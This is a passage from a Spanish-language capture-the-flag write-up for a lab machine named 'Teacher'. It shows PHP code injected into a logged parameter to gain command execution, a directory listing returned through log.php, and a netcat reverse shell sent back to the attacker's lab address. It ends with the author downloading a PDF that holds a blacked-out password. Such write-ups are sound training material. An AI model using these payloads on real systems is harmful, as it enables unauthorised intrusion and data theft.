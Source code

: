 Ya teniendo este ejemplo podemos aprovecharnos para enviar $_GET['cmd'] y nos deje realizar comandos
```
link: http://10.0.2.24/access.php?id=<?php system("id")?>
<img src='<?php system($_GET['cmd']);?>'>
```
```
link: view-source:http://10.0.2.24/log.php?cmd=ls%20-la
your logs: 
 total 5332
drwxr-xr-x 2 root      root         4096 Aug 26  2022 .
drwxr-xr-x 3 root      root         4096 Aug 24  2022 ..
-rw-r--r-- 1 root      root          191 Aug 25  2022 access.php
-rw-r--r-- 1 root      root           48 Aug 26  2022 clearlogs.php
-rw-r--r-- 1 mrteacher mrteacher 5301604 Aug 25  2022 e14e1598b4271d8449e7fcda302b7975.pdf
-rw-r--r-- 1 root      root          315 Aug 26  2022 index.html
-rwxrwxrwx 1 root      root           43 Mar 10 00:03 log.php
-rw-r--r-- 1 root      root       130469 Aug 26  2022 rabbit.jpg
```

Ahora realizaremos un reverse shell con revshell
para que pueda utilizar una terminal

``http://10.0.2.24/log.php?cmd=nc%2010.0.2.4%20443%20-e%20%2Fbin%2Fbash``

Nada mas entrar en la maquina upgradeamos nuestra shell a una shell inteligente
(En otros writeups ya esta como se hace)

Ahora si en la maquina victima vemos los archivos y nos salta a la cara un pdf de mrteacher
```
www-data@Teacher:/var/www/html$ ls
access.php     e14e1598b4271d8449e7fcda302b7975.pdf  log.php
clearlogs.php  index.html			     rabbit.jpg
```

Nos lo descargamos a nuestra maquina 

```
❯ wget http://10.0.2.24/e14e1598b4271d8449e7fcda302b7975.pdf 
--2023-03-09 15:23:43--  http://10.0.2.24/e14e1598b4271d8449e7fcda302b7975.pdf
Connecting to 10.0.2.24:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5301604 (5.1M) [application/pdf]
Saving to: ‘e14e1598b4271d8449e7fcda302b7975.pdf’

e14e1598b4271d8449 100%[=============>]   5.06M  --.-KB/s    in 0.01s   

2023-03-09 15:23:43 (388 MB/s) - ‘e14e1598b4271d8449e7fcda302b7975.pdf’ saved [5301604/5301604]
```

Revisando el pdf con Okular 
Vemos que al final en la hoja numero 8 esta el password pero esta cubierto con tinta negra

